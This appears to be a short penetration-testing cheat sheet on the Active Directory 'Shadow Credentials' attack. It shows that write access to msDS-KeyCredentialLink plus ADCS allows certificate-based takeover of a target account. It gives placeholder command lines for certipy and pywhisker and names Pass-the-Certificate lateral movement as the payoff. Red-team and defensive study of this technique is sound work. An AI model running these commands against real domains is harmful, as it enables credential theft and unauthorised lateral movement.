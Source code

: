 # can change msDS-KeyCredentialLink (GenericWrite) + ADCS 

## AKA Shadow Credentials

## Tools: Whisker.exe , pywhisker.py , certipy

#### 1) certipy

 - certipy shadow auto -u 'USER@DOMAIN' -p PASSWORD -account 'TARGET_ACCOUNT'

#### 2) pywhisker.py

 - pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p"CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"

### With this attack, we can perform Pass-the-Certificate for Lateral Movement
